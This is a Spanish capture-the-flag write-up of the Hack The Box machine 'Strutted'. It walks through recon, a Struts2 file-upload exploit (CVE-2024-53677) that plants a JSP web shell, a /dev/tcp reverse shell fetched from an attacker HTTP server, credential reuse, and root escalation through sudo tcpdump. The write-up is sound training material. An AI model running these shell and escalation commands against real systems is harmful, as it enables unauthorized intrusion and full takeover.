```yaml
---
title: HTB Strutted Writeup
date: 2025-03-18 19:39:50 -05:00
author: retxus
categories: [HTB, Linux]
tags: [Linux, http, Information Leakage, Arbitrary file upload (malicioso JSP file), CVE-2024-53677, abusing sudo privulege(tcpdump)]
comments: false
image:
  path: /assets/img/HTB-Strutted/Strutted.png
---
```


Muy buenas con todos, el día de hoy voy a resolver la máquina `Strutted` de HTB, espero que el procedimiento sea de su agrado y fácil de comprender.

## Reconocimiento

Primero vemos si tenemos conexión con la máquina y de paso gracias al `ttl` identificamos ante el tipo de máquina que estamos, en `linux` este suele ser de 64 y en `windows` de 128.

```bash
ping -c 1 10.10.11.59
PING 10.10.11.59 (10.10.11.59) 56(84) bytes of data.
64 bytes from 10.10.11.59: icmp_seq=1 ttl=63 time=104 ms

--- 10.10.11.59 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 104.352/104.352/104.352/0.000 ms
```

Vemos que el `ttl` de la máquina es de 63, el cual está próximo a 64 por ende nos encontramos ante una máquina `Linux`.

Ahora vamos a identificar los puertos abiertos dentro de la máquina, los invito a usar el siguiente `script` hecho en `bash`.

```bash
#!/bin/bash

GREEN="\e[32m"
RED="\e[31m"
RESET="\e[0m"

IP="$1"

if [ -z "$IP" ]; then
  echo "Uso: $0 <IP>"
  exit 1
fi

TEMP_FILE=$(mktemp)

echo -e "${GREEN}[+] Escaneando todos los puertos abiertos... ${RESET}"

nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn "$IP" -oG "$TEMP_FILE"

# Extraer los puertos abiertos
PORTS=$(grep -oP '\d+/open' "$TEMP_FILE" | awk -F'/' '{print $1}' | tr '\n' ',' | sed 's/,$//'; echo)

rm "$TEMP_FILE"

if [ -z "$PORTS" ]; then
  echo -e "${RED}[-] No se encontraron puertos abiertos.${RESET}"
  exit 1
fi

echo -e "\n${GREEN}[+] Escanenado servicios en los puertos: $PORTS. ${RESET}\n"

nmap -sCV -p"$PORTS" "$IP" -oN target

echo -e "\n${GREEN}[+] Escano completado. Resultados en 'target'.${RESET}\n"
```

De preferencia es mejor usar este `script` como `root`, ya que algunos parámetros de `nmap`, requieren de privilegios elevados. Esto al final nos va a generar un archivo `target` que contiene la información de los puertos abiertos dentro de la máquina.

```bash
sudo ./scan.sh 10.10.11.44
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Strutted\xE2\x84\xA2 - Instant Image Uploads
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Se nos reporta que el puerto `22` y `80` están abiertos, si nos dirigimos a la web con la `IP`, vemos que esta nos redirige a un dominio, por ende se está aplicando `Resolucion DNS`, nuestra máquina no sabe a qué hace referencia ese dominio, así que lo agregamos al `/etc/hosts`.

```bash
127.0.0.1	localhost
::1		localhost
127.0.0.1	machinename.localhost	machinename

10.10.11.59 strutted.htb
```

### Enumeración

En la web vemos un apartado para subir archivos de tipo imagen y también tenemos un apartado de `descarga`, al darle clic, se nos baja un archivo `.zip`, si lo descomprimimos para ver su contenido podemos ver que lo que parece ser el código fuente de la `web`.

![](/assets/img/HTB-Strutted/1_Strutted.png)

Dentro del `tomcat-users.xml` tenemos un usuario con su credencial, pero no llegamos a ningún lado con eso. Tenemos también un archivo `Dockerfile`, así que podemos suponer que la `web` está desplegada con un contenedor, o parte de ella. En la carpeta `strutted` hay un archivo `pom.xml`, este ya pinta más interesante, podemos ver módulos, dependencias y demás cosas que usa la web, algo que me llama la atención es `strust2.version (6.3.0.1)`, buscando un poco nos encontramos con [esta](https://attackerkb.com/topics/YfjepZ70DS/cve-2024-53677){:target="_blank"} vulnerabilidad interesante, donde mediante un `Arbitrary file upload` podemos subir algún archivo malicioso que nos interese.

### Subida arbitraria de archivos (CVE-2024-53677)

En esta ocasión usaremos [caido](https://caido.io/){:target="_blank"} para capturar la petición y poder manipularla. Podemos subir cualquier archivo, al fin de cuentas, vamos a jugar con los primeros bytes del archivo para hacerle pensar a la `web` que se trata de un tipo de imagen.

![](/assets/img/HTB-Strutted/2_Strutted.png)

Vemos que la vulnerabilidad se ejecuta, ahora vamos a tratar de subir una `web_shell.jsp`, podemos hacer uso de [esta](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/jsp/cmd.jsp){:target="_blank"}.

![](/assets/img/HTB-Strutted/3_Strutted.png)

Vemos que fue exitoso, nos dirigimos a la ruta don se subió el archivo y vemos que podemos ejecutar comandos `RCE`.

![](/assets/img/HTB-Strutted/4_Strutted.png)

### Obteniendo la primera shell

Ahora vamos a ganar acceso al sistema obteniendo una shell, nos montamos un servido con `python` y subimos un archivo en `bash` para poder obtener una `shell` interactiva.

```bash
echo '#/bin/bash\n\nbash -c "bash -i >& /dev/tcp/10.10.14.235/4444 0>&1"' > bash.sh

python -m http.server 8080
```

En la `web` donde tenemos el `.jsp` nos descargamos el archivo, le damos los permisos necesarios, lo ejecutamos con `bash` y logramos ganar acceso.

```bash
wget http://{IP}:8080/bash.sh -O /tmp/bash.sh

chmod 777 /tmp/bash.sh

bash /tmp/bash.sh
```

![](/assets/img/HTB-Strutted/5_Strutted.png)

Ahora estamos como el usuario `tomcat` dentro de la máquina, una vez dentro hacemos el tratamiento de la `tty`.

```bash
script /dev/null -c bash
Ctrl + z
stty raw -echo; fg
export TERM=xterm-256color
source /etc/skel/.bashrc
```

Para tener las proporciones adecuadas dentro de la `shell` en una ventana de nuestro terminal hacemos `stty size` y en la shell de la víctima ponemos `stty rows {YOUR_ROWS_NUMBER} columns {YOUR_COLUMNS_NUMBER}`.

## Migrando a otro usuario

Si listamos el `/etc/passwd` vemos otro usuario `james`, al probar las credenciales obtenidas de `tomcat-users.xml`, vemos que no son válidas. Si listamos dentro de `/var/lib/tomcat9/conf`, nos encontramos con otro archivo `tomcat-users.xml`, en donde hay otra credencial.

![](/assets/img/HTB-Strutted/6_Strutted.png)

Si la probamos con `su james`, no es posible conectarse, pero aún tenemos `ssh` y al tratar vemos que efectivamente logramos ganar acceso como `james` con esa credencial y una vez dentro podemos ver el `user.txt`.

## Escalada de privilegios.

Si listamos nuestro privilegio a nivel de `sudo`, vemos que podemos ejecutar `tcpdump` como `root` sin proporcionar contraseña, en [GTFObins](https://gtfobins.github.io/gtfobins/tcpdump/#sudo){:target="_blank"} nos indican una forma de como podemos escalar nuestro privilegio, yo lo que hice fue asignar permisos `SUID` al binario `/bin/bash`.

```bash
COMMAND='chmod +s /bin/bash' & TF=$(mktemp) & echo "$COMMAND" > $TF & chmod +x $TF & sudo /usr/sbin/tcpdump -ln -i lo -w /dev/null -W 1 -G 1 -z $TF -Z root
```

Ejecutamos el binario como el propietario y ahora ya podemos ver la `root.txt`

![](/assets/img/HTB-Strutted/7_Strutted.png)
